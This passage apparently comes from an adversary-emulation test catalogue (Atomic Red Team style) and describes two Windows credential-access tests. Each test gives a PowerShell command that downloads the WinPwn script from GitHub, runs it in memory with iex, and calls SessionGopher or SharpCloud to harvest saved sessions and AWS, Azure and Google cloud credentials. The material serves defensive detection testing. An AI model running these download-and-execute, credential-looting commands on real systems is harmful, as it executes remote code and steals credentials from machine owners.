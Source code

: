 ## Atomic Test #11 - WinPwn - SessionGopher
Launches SessionGopher on this system via WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** c9dc9de3-f961-4284-bd2d-f959c9f9fda5






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sessionGopher -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials
Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** aaa87b0e-5232-4649-ae5c-f1724a4b2798






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
SharpCloud -consoleoutput -noninteractive
```






<br/>
